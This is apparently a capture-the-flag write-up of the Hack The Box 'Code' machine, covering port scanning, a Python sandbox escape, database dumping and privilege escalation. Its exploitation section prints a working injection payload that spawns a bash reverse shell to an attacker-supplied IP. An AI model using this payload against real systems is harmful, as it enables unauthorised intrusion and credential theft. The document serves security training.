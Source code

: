 # Write Up for The HTB Code Box

## Enumeration

Launching into the Box my IP was `10.10.11.62`

Using Nmap I will Scan the Ip for open Ports `nmap -sC -sV -T4 <ip>`

<img width="823" height="302" alt="codenmap" src="https://github.com/user-attachments/assets/36c801b6-5cd0-44a4-bd8c-43fda50e19ad" />

Http webside on port 5000. Looking at the website it sanitises the inputs you give it.

# Exploitation

On a meduim Writeup I saw you can display exceptions! So i try `print((()).__class__.__bases__[0].__subclasses__())` I see alot of classes and need the Popen one to spawn a shell. 

I used microsoft word as a find tool and got `raise Exception((()).__class__.__bases__[0].__subclasses__()[317].__name__)` perfect!

Write a shell to get in `raise Exception(str((()) .__class__.__bases__[0].__subclasses__()[317]("bash -c 'bash -i >& /dev/tcp/your_IP/4444 0>&1'", shell=True, stdout=-1).communicate()))`

<img width="973" height="61" alt="popen" src="https://github.com/user-attachments/assets/426198a4-6ba7-4839-a9f2-eb5ec728126d" />

After that got my shell as app-prodution. Looking for files to write to I find a data base .db hmmm `cd instance sqlite3 database.db.tables SELECT * FROM USER;`

<img width="469" height="156" alt="sqlicode" src="https://github.com/user-attachments/assets/e29e2a98-e7c3-46bf-9bb5-5260357dd3df" />

I used Crackstation to then find martians password and logged in via ssh 

# Root Flag

Next I used `sudo -l` to see any commands that can be run 

<img width="793" height="141" alt="sudocode" src="https://github.com/user-attachments/assets/7b23ef0a-2501-4617-9c41-9ec17b2e8f1d" />

Looking into the file its a backup file that uses task.json which just backups any directory

I tried to get it to back up the root directoy but that failed so I looked up directory traversial methods and got my answer.

I modified the task.json file and ran it

<img width="610" height="194" alt="task" src="https://github.com/user-attachments/assets/b2fbca72-f321-4e22-a135-441d99263b05" />

<img width="803" height="75" alt="rootflagcode" src="https://github.com/user-attachments/assets/4ac8c299-2cee-4eff-bc1e-59b0962e009f" />

Unzip the folder and go into the root and the `root.txt` flag is there
